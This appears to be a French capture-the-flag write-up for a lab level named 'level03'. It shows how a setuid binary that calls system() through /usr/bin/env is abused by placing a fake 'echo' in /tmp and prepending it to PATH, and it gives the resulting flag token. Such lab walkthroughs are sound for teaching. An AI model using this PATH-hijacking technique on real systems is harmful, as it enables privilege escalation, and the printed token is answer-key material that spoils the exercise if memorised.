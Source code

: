 # LEVEL03

#### fichier executable ./level03

En faisant un `ls -la` on peut voir un executable **level03**

```
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```

Le fichier à comme owner **flag03**
Nous pouvons utiliser **ltrace** qui est un programme qui exécute simplement la commande spécifiée jusqu'à qu'a la fin de son éxécution. Elle intercepte et enregistre les appels dynamiques de la bibliothèque qui sont appelés par le processus exécuté et les signaux qui sont reçues par ce processus. Elle peut également intercepter et imprimer les appels système exécutés par le programme.

```
system("/usr/bin/env echo Exploit me")
```

L'éxécutable ayant les droits **flag03** nous pouvons l'utiliser pour
 éxécuter la commande **getflag** au lieu de **echo**.

Pour cela nous allons créér un fichier /tmp/echo qui contiendra "getf
lag"

- `echo getflag > /tmp/echo`
- `chmod +x /tmp/echo`
- `PATH=/tmp:$PATH`
- `./level03`


Check flag.Here is your token : qi0maab88jeaj46qoumi7maus

